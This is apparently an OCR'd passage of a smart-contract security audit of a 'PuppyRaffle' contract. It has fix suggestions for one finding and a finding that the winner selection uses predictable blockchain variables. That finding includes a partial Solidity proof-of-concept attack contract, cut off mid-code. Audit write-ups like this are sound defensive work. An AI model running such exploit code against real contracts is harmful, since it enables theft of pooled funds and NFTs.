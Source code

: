 There are multiple ways to solve this problem. One would be to remove the item from the array altogether so that the size is equivalent to the number of players registered.

Alternatively, keep track of the balance in the raffle in a separate variable, and decrease or increase this variable after a player enters/leaves the raffle and use this to calculate the payout.

Also, it'd be better to use mappings to keep track of the users status rather than relying on arrays which can cause other problems such as the array growing too large for example.

# Randomness can be gamed

## Summary

The randomness to select a winner can be gamed and an attacker can be chosen as winner without random element.

## Vulnerability Details

Because all the variables to get a random winner on the contract are blockchain variables and are known, a malicious actor can use a smart contract to game the system and receive all funds and the NFT.

## Impact

Critical

## Tools Used

Foundry

## POC

```
// SPDX-License-Identifier: No-License

pragma solidity 0.7.6;

interface IPuppyRaffle {
    function enterRaffle(address[] memory newPlayers) external payable;

    function getPlayersLength() external view returns (uint256);

    function selectWinner() external;
}

contract Attack {
    IPuppyRaffle raffle;

    constructor(address puppy) {
        raffle = IPuppyRaffle(puppy);
    }

    function attackRandomness() public {
        uint256 playersLength = raffle.getPlayersLength();

        uint256 winnerIndex;
        uint256 toAdd = playersLength;
        while (true) {
            winnerIndex =
                uint256(
                    keccak256(
                        abi.encodePacked(
```